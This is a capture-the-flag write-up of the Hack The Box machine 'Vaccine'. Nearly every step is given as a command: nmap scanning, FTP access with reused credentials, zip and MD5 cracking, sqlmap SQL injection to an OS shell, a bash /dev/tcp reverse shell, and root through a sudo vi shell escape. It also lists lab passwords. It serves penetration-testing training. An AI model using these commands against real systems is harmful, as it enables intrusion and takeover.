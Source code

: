 # Vaccine

![Vaccine](../Images/htb_vaccine_1.png)

**Tools: nmap, zip2john, john, hash-identifier, unzip, sqlmap.**

*This box doesn't have a user flag, only the root flag.*

We begin with the nmap scan:  
```
ports=$(nmap --min-rate=1000 -T4 -p- 10.10.10.46 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)  
nmap -sC -sV -T4 -p$ports 10.10.10.46 -oG vaccine_scan
```

![Vaccine](../Images/htb_vaccine_2.png)

Ports 21, 22 and 80 are open. Using the credentials gathered in the previous box 'Oopsie', we can access the ftp server:  
```
ftp 10.10.10.46  
ftpuser  
mc@F1l3ZilL4
```

![Vaccine](../Images/htb_vaccine_3.png)

There's a 'backup.zip' file that we can download, but we're unable to extract it because it is password-protected.   
We can use the tool zip2john to extract its hash and then john to crack it:  
```
zip2john backup.zip > file_hash  
john file_hash -w=/usr/share/wordlists/rockyou.txt
```

![Vaccine](../Images/htb_vaccine_4.png)

We are able to find the password for the zip file:  
741852963  
Next up, we can unzip it to see its contents:  
`unzip backup.zip`

Reading the 'index.php' reveals us a hardcoded password hash.

![Vaccine](../Images/htb_vaccine_5.png)

Using hash-identifier we can see that it is a MD5 hash, so we can use [Crackstation](https://crackstation.net/) to get the clear-text password.  
```
2cb42f8734ea607eefed3b70af13bbd3  
qwerty789
```

![Vaccine](../Images/htb_vaccine_6.png)

Accessing the webpage for this IP we can see a login form, and with the just-found password we can attempt to login using some common usernames, so we're able to access using 'admin'.

![Vaccine](../Images/htb_vaccine_7.png)

Some quick tests reveal that this page might be vulnerable to SQL Injection (SQLi).

![Vaccine](../Images/htb_vaccine_8.png)

We can use sqlmap to test this and then exploit it. First we need to copy our session cookie from the browser dev-tools (F12), storage tab:

![Vaccine](../Images/htb_vaccine_9.png)

`sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=<yourSessionID>"` 

The above command will reveal that the target is vulnerable to SQLi. So we can run the command below to gain a shell:  
`sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=<yourSessionID>" --os-shell`

![Vaccine](../Images/htb_vaccine_10.png)

Now in our box we can start a netcat listening session, then start a reverse shell in the target box:  
```
nc -vnlp 9003
bash -c 'bash -i >& /dev/tcp/<youtTun0IP>/9003 0>&1'
```

![Vaccine](../Images/htb_vaccine_11.png)

As mentioned before, there's no 'user' flag in this box, so the next step is to find a way to escalate our privileges to grab the 'root' flag.  
Now we need to perform some enumeration. At the '/var/www/html' we can find the 'dashboard.php' file, and once again we're able to find some hardcoded sensitive information for our user 'postgres':  
`P@s5w0rd!`

![Vaccine](../Images/htb_vaccine_12.png)

Now we need to spawn a fully interactive shell to check the user's permissions, prividing the password we've just found:  
```
SHELL=/bin/bash script -q /dev/null  
sudo -l
```

![Vaccine](../Images/htb_vaccine_13.png)

Sudo -l shows us that we can run '/bin/vi /etc/postgresql/11/main/pg_hba.conf' with sudo permissions:  
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

Once inside Vi we can run the following command to exploit the elevated privileges:  
```
Press Esc then  
:!/bin/bash
```

And then you can read the root.txt file:  
`cat /root/root.txt`

![Vaccine](../Images/htb_vaccine_14.png)
